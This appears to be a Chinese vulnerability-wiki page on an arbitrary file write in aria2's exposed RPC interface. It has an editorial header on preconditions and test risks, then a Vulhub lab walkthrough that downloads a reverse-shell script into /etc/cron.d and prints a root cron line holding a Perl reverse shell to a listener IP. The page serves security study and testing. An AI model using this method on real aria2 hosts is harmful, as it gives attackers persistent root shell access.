




# Aria2 任意文件写入漏洞

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：RPC可访问并具有操作权限/未配认证，aria2进程对目标目录可写；cron链需root目录权限及cron服务
- 证据范围：下载工具预期可指定路径，风险核心是RPC暴露与进程权限；不能无条件当所有版本产品漏洞

### 本次正文校订

- 按实际内容修正 1 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 缺RPC认证配置与运行用户说明
- 外部托管UI处理目标地址/凭据有信任边界，应提供本地UI替代
- cron任务文件执行受命名/属主/权限/格式影响，不是目录任意文件都必执行

### 操作风险与资料使用

- 含计划任务、启动项或 SSH 授权文件写入：会改变后续执行或登录行为。测试前备份原文件，结束后恢复原内容、权限与属主，不覆盖生产文件。
- 含反向连接或交互式命令执行方法：会产生出站连接和子进程；目标、监听端与网络须在授权隔离范围内，结束后关闭会话并核对遗留进程。

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

Aria2是一个命令行下轻量级、多协议、多来源的下载工具（支持 HTTP/HTTPS、FTP、BitTorrent、Metalink），内建XML-RPC和JSON-RPC接口。在有权限的情况下，我们可以使用RPC接口来操作aria2来下载文件，将文件下载至任意目录，造成一个任意文件写入漏洞。

参考阅读：https://paper.seebug.org/120/

## 环境搭建

Vulhub启动漏洞环境：

```shell
docker-compose up -d
```

6800是aria2的rpc服务的默认端口，环境启动后，访问`http://your-ip:6800/`，发现服务已启动并且返回404页面。

## 漏洞复现

因为rpc通信需要使用json或者xml，不太方便，所以我们可以借助第三方UI来和目标通信，如 http://binux.github.io/yaaw/demo/ 。

打开yaaw，点击配置按钮，填入运行aria2的目标域名：`http://your-ip:6800/jsonrpc`



然后点击Add，增加一个新的下载任务，将另一台VPS服务器上的反弹shell脚本下载至/etc/cron.d。

在Dir的位置填写下载至的目录，File Name处填写文件名。比如，我们通过写入一个crond任务来反弹shell：



这时候，arai2会将恶意文件（我指定的另一台VPS服务器上的URL，为http://xxx.xxx.xxx.xxx/reverse_shell.sh）下载到/etc/cron.d/目录下，文件名为shell。而在debian中，/etc/cron.d目录下的所有文件将被作为计划任务配置文件（类似crontab）读取，等待一分钟不到即成功反弹shell：

```
* * * * * root /usr/bin/perl -e 'use Socket;$i="192.168.174.128";$p=9999;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

```

使用crontab -l命令查看定时任务，并不能查看到我们设置的反弹shell。

cron执行时要读取三个地方的配置文件：一是/etc/crontab，二是/etc/cron.d目录下的所有文件，三是每个用户的配置文件。



> 如果反弹不成功，注意crontab文件的格式，以及换行符必须是`\n`，且文件结尾需要有一个换行符（建议直接在VPS服务器上执行vim）。



当然，我们也可以尝试写入其他文件，更多利用方法可以参考[这篇文章](https://paper.seebug.org/120/)。


---

> 来源：Threekiii/Awesome-POC
